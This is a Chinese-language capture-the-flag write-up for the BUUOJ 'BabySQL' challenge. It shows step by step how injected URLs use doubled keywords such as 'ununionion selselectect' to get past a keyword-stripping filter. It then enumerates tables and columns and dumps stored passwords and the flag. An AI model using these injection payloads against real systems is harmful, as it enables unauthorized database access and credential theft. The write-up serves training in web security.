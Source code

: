 # [[极客大挑战 2019]BabySQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)



## 0x00先判断闭合



```sql
http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password=admin'
```



结果为



```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin''' at line 1
```



此为字符型注入



## 0x01使用order by 判断列数



```sql
http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='order by 1%23'
```



发现报错



```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'der 1#''' at line 1
```



通过报错报错发现or被屏蔽了，继续试了几个关键字发现都被屏蔽了，猜测应该是用函数replace给我们替换成了空白字符



## 0x01直接采用拼接字符的方法绕过



直接用联合查询猜回显



````sql
http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,3%23'
````



猜测成功，成功绕过,发现回显



```sql
Hello 2！

Your password is '3'
```



## 0x02直接用payload进行爆库等操作



```sql
http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,database(),version()%23'

http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,user(),@@version_compile_os%23'
```



结果为

database		geek！

version		10.3.18-MariaDB

user		root@localhost！

平台		Linux



## 0x03继续爆表名



```sql
http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema= 'geek'%23'
```



结果为



```sql
Hello 2！

Your password is 'b4bsql,geekuser'
```



## 0x04直接查看b4bsql,geekuser两个表中的字段



```sql
http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name= 'b4bsql'%23'

http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name= 'geekuser'%23'
```



两个表的结果都为



```sql
Hello 2！

Your password is 'id,username,password'
```



## 0x05查看两个表下字段的详细信息



```sql
http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,username frfromom b4bsql%23

http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,passwoorrd frfromom b4bsql%23
```



结果分别为



```sql
Hello 2！

Your password is 'cl4y'

Hello 2！

Your password is 'i_want_to_play_2077'
```



这里走弯路了，**可以直接用group_concat子句将password列下的所有字段显示出来**，直接找到flag



```sql
http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,group_concat(passwoorrd) frfromom b4bsql%23
```



结果为



```sql
Hello 2！

Your password is 'i_want_to_play_2077,sql_injection_is_so_fun,do_you_know_pornhub,github_is_different_from_pornhub,you_found_flag_so_stop,i_told_you_to_stop,hack_by_cl4y,flag{19deb901-dfac-433a-840b-5e7b463f8adf}'
```



**找到flag**

flag{19deb901-dfac-433a-840b-5e7b463f8adf}



## 0x06补充



### [SQL REPLACE()字符串替换函数](https://www.w3cschool.cn/sql/sql-replace.html)

将设定好的关键字替换为想要的字符（这里是将or,select等关键字替换为空字符所以才能用拼接字符的方法绕过）



作者

SihUi
